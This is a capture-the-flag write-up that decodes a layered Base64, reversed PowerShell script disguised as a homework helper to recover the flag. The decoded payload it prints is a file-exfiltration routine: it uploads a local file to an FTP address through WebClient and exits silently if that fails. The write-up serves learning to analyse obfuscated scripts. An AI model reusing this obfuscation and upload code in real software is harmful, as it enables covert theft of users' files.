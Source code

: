 ## Suspicious script

I was on a site looking for homework help. They offer this tool that I installed and they suggest running it to help solve my assignment. The file ends in .ps1 and I am unfamiliar with it. Can you check it out for me?

The flag starts with DawgCTF{...}

## Solution

Opening homeworkHelper.ps1, you can see a long string of what seems to be Base64 encoded text.

```JAB7ACEAfQA9AFsAQwBIAGEAcgBdADEAMAA1ADsAJABhAD0AWwBTAHkAUwBUAEUAbQAuAH . . . ACIAJAB7ACEAfQBlACQAewBAAH0AIgApAA```

Decoding this string gives you even more Base64-encoded text:

```
fQB0AGkAeABlAHsAaABjAHQAYQBjAH0AOwApAEYAJAAgACwAaQByAHUAJAAoAGUAbABpAEYAZABhAG8AbABwAFUALgBsAGMAdwAkADsAcAB0AGYAJAAgAHQAcwBpAEwAdABuAGUAbQB1AGcAcgBBAC0AIABpAHIAVQAuAG0AZQB0AHMAeQBTACAAZQBtAGEATgBlAHAAeQBUAC0AIAB0AGMAZQBqAGIATwAtAHcAZQBOAD0AaQByAHUAJAA7AHQAbgBlAGkAbABDAGIAZQBXAC4AdABlAE4ALgBtAGUAdABzAHkAUwAgAGUA

bQBhAE4AZQBwAHkAVAAtACAAdABjAGUAagBiAE8ALQB3AGUATgA9AGwAYwB3ACQAOwAiAHAAaQB6AC4AcwBzAGEAcAAvAG4AaQAvAH0AIQA1AHQAcAAxAGMANQBfAGQAZQBwAHAANAByAFcAewBGAFQAQwBnAHcAYQBEAEAAeQByAGEAYwBzADoAcgBlAHMAdQAvAC8AOgBwAHQAZgAiAD0AcAB0AGYAJAA7ADYAMQAxAF0AcgBhAEgAQwBbACsAMAAyADEAXQByAGEASABDAFsAKwA2ADEAMQBdAHIAYQBIAEMAWwArADYA

NABdAHIAYQBIAEMAWwArADUAMgAxAF0AcgBhAEgAQwBbACsANgAxADEAXQByAGEASABDAFsAKwAyADEAMQBdAHIAYQBIAEMAWwArADkANABdAHIAYQBIAEMAWwArADQAMQAxAF0AcgBhAEgAQwBbACsAOQA5AF0AcgBhAEgAQwBbACsAMwA1AF0AcgBhAEgAQwBbACsANQA5AF0AcgBhAEgAQwBbACsANQAxADEAXQByAGEASABDAFsAKwAyADEAMQBdAHIAYQBIAEMAWwArADUAOQBdAHIAYQBIAEMAWwArADAAMAAxAF0A

cgBhAEgAQwBbACsAMQA1AF0AcgBhAEgAQwBbACsAMAAwADEAXQByAGEASABDAFsAKwA4ADQAXQByAGEASABDAFsAKwA5ADkAXQByAGEASABDAFsAKwAwADEAMQBdAHIAYQBIAEMAWwArADEANQBdAHIAYQBIAEMAWwArADMAMgAxAF0AcgBhAEgAQwBbACsANQAxADEAXQByAGEASABDAFsAKwA5ADEAMQBdAHIAYQBIAEMAWwArADcAOQBdAHIAYQBIAEMAWwArADAAOABdAHIAYQBIAEMAWwArADIAOQBdAHIAYQBIAEMA

WwArADgANQBdAHIAYQBIAEMAWwArADcANgBdAHIAYQBIAEMAWwA9AEYAJAB7AHkAcgB0AA==
```

Decoding THAT string will give you this:

`}tixe{hctac};)F$ ,iru$(eliFdaolpU.lcw$;ptf$ tsiLtnemugrA- irU.metsyS emaNepyT- tcejbO-weN=iru$;tneilCbeW.teN.metsyS emaNepyT- tcejbO-weN=lcw$;"piz.ssap/ni/}!5tp1c5_depp4rW{FTCgwaD@yracs:resu//:ptf"=ptf$;611]raHC[+021]raHC[+611]raHC[+64]raHC[+521]raHC[+611]raHC[+211]raHC[+94]raHC[+411]raHC[+99]raHC[+35]raHC[+59]raHC[+511]raHC[+211]raHC[+59]raHC[+001]raHC[+15]raHC[+001]raHC[+84]raHC[+99]raHC[+011]raHC[+15]raHC[+321]raHC[+511]raHC[+911]raHC[+79]raHC[+08]raHC[+29]raHC[+85]raHC[+76]raHC[=F${yrt`

This text seems to be in reverse, so reversing it gives this: 

`try{$F=[CHar]67+[CHar]58+[CHar]92+[CHar]80+[CHar]97+[CHar]119+[CHar]115+[CHar]123+[CHar]51+[CHar]110+[CHar]99+[CHar]48+[CHar]100+[CHar]51+[CHar]100+[CHar]95+[CHar]112+[CHar]115+[CHar]95+[CHar]53+[CHar]99+[CHar]114+[CHar]49+[CHar]112+[CHar]116+[CHar]125+[CHar]46+[CHar]116+[CHar]120+[CHar]116;$ftp="ftp://user:scary@DawgCTF{Wr4pped_5c1pt5!}/in/pass.zip";$wcl=New-Object -TypeName System.Net.WebClient;$uri=New-Object -TypeName System.Uri -ArgumentList $ftp;$wcl.UploadFile($uri, $F);}catch{exit}`

In this text, the flag is present.

FLAG: `DawgCTF{Wr4pped_5c1pt5!}`
